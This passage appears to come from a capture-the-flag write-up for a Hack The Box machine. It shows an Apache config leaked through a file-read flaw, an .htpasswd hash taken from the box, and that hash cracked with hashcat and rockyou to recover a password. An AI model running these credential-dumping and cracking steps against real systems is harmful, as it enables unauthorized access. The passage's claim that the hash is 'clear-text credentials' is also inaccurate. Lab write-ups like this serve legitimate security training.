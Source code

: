 Note: Make sure you change the global variables.

Successfully dumped the file.

<img src="/assets/img/pollution/image 17.png" alt="image 17.png" style="width:800px;">

The */etc/apache2/sites-enabled/developers.collect.htb.conf* file disclosed the full path for an authentication file. Let’s try to exfiltrate it.

```bash
echo PFZpcnR1YWxIb3N0ICo6ODA<SNIP> | base64 -d; echo
<SNIP>
	<Directory "/var/www/developers">
		AuthType Basic
		AuthName "Restricted Content"
		AuthUserFile /var/www/developers/.htpasswd
		Require valid-user
	</Directory>
<SNIP>
```

The *.htpasswd* file contained clear-text credentials.

```bash
developers_group:$apr1$MzKA5yXY$DwEz.jxW9USWo8.goD7jY1
```

Successfully cracked the hash using *Hashcat*.

```bash
hashcat --help | grep '$apr1'
   1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR) | FTP, HTTP, SMTP, LDAP Server
   
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz; sudo chmod 777 /usr/share/wordlists/rockyou.txt

hashcat -m 1600 hash /usr/share/wordlists/rockyou.txt
$apr1$MzKA5yXY$DwEz.jxW9USWo8.goD7jY1:r0cket
```

